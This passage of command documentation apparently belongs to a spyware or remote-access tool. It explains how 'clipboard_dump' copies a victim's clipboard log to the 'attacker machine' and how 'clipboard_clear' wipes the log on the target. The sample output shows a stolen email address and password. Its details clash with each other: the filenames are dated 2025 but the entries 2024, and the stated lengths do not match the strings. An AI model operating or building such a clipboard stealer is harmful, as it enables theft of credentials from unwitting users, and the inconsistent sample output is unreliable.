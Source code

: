
### Dump Logs (Auto-Download)

```bash
clipboard_dump
```

**What happens:**

1. Locates current clipboard log file
2. Checks if file exists and has content
3. Automatically transfers to attacker machine
4. Saves as `clipboard_dump_YYYYMMDD_HHMMSS.txt`
5. Displays content in terminal

**Response:**

```
Clipboard log file ready: logs/clipboard/clipboard_20251004_150230.txt
[*] Downloading clipboard log file...
[+] Clipboard log file downloaded: clipboard_dump_20251004_150530.txt

=== Clipboard Log Content ===
============================================================
Timestamp: 2024-10-04 15:03:45
Length: 42 characters
------------------------------------------------------------
admin@company.com
============================================================

============================================================
Timestamp: 2024-10-04 15:04:12
Length: 23 characters
------------------------------------------------------------
MySecretPassword123!
============================================================
=== End of Clipboard Log ===
```

**File location:**

- Target: `logs/clipboard/clipboard_20251004_150230.txt`
- Attacker: `logs/clipboard/clipboard_dump_20251004_150530.txt`

---

### Clear Logs

```bash
clipboard_clear
```

**What happens:**

- Deletes current log file
- Creates new empty log file
- Resets monitoring state
- Returns new log file path

